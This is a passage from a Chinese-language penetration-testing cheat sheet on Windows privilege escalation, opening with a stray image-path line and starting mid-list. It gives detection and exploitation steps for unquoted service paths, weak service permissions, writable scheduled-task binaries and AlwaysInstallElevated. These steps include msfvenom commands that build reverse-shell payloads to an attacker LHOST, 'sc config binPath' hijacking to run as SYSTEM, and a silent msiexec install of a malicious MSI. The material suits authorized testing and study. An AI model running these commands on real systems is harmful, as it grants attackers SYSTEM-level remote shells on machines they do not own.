             6.  获得 Shell 后恢复原文件。
    *   **未引用的服务路径 (Unquoted Service Path)**
        *   **原理**: 如果服务路径含空格且未用引号包围 (e.g., `C:\Program Files\Some Service\service.exe`)，系统会依次尝试执行 `C:\Program.exe`, `C:\Program Files\Some.exe`, ...。如果在靠前路径 (如 `C:\`) 有写入权限，可放置同名恶意程序 (如 `Program.exe`) 劫持。
        *   **检测**:
            *   `wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """`: 查找自动启动、路径不在 Windows 目录、且路径未被引号包围的服务。
            *   对找到的路径，使用 `icacls` 检查上级目录 (如 `C:\`, `C:\Program Files`) 是否对当前用户可写。
        *   **利用**:
            1.  生成 Payload (普通 exe): `msfvenom -p windows/x64/shell_reverse_tcp ... -f exe -o Program.exe` (文件名取路径第一个空格前的部分)。
            2.  上传到对应的可写上级目录 (如 `C:\Program.exe`)。
            3.  确保权限: `icacls C:\Program.exe /grant Everyone:F`
            4.  重启服务或等待系统重启。
    *   **不安全的服务权限 (Insecure Service Permissions / Weak Service DACL)**
        *   **原理**: 如果当前用户对服务对象本身有修改配置的权限 (即使对服务文件没有写权限)，可以修改服务的 `binPath` (执行路径) 或 `ObjectName` (运行账户)。
        *   **检测**:
            *   `accesschk64.exe -qlc <ServiceName>`: 检查当前用户或所属组是否有 `SERVICE_CHANGE_CONFIG` 或 `SERVICE_ALL_ACCESS` 权限。
        *   **利用**:
            1.  生成 Payload (服务格式 `exe-service` 或普通 `exe` 配合 `cmd /c`)。上传并确保权限。
            2.  修改服务配置: `sc config <ServiceName> binPath= "C:\path\to\payload.exe" obj= LocalSystem` (将服务指向 Payload 并以 SYSTEM 运行)。**注意 `binPath=` 和 `obj=` 后面的空格**。
            3.  重启服务: `net stop <ServiceName>`, `net start <ServiceName>`。
            4.  获得 Shell 后恢复配置: `sc config <ServiceName> binPath= "<original_path>" obj= <original_account>`。

5.  **利用计划任务 (Scheduled Tasks)**
    *   **原理**: 如果某个以高权限运行的计划任务所执行的程序或脚本所在的目录对低权限用户可写，则可以替换原程序。
    *   **检测**:
        1.  `schtasks /query /fo LIST /v`: 查看任务详情，关注以 SYSTEM 或 Administrators 运行的任务及其 "Task To Run" (执行的命令/脚本)。
        2.  `icacls "<path_to_program_or_script_directory>"`: 检查对该程序或其所在目录的写入权限。
    *   **利用**:
        1.  备份原文件。
        2.  生成并上传 Payload，替换原文件。
        3.  等待任务执行，或手动触发 (如果权限允许): `schtasks /run /tn <TaskName>`。
        4.  获得 Shell 后恢复。

6.  **利用 AlwaysInstallElevated**
    *   **原理**: 如果特定注册表策略被设置，允许任何用户以 SYSTEM 权限安装 MSI 包。
    *   **检测**: 查询以下两个注册表项的值是否都为 `1`：
        *   `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        *   `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
    *   **利用**:
        1.  如果两个值都为 1，则此方法可行。
        2.  生成 MSI Payload: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o malicious.msi`
        3.  上传 `malicious.msi` 到目标机。
        4.  执行安装 (会以 SYSTEM 权限运行 Payload): `msiexec /quiet /qn /i C:\path\to\malicious.msi` (`/quiet /qn` 表示静默安装)。
        5.  在攻击机监听反弹 Shell。
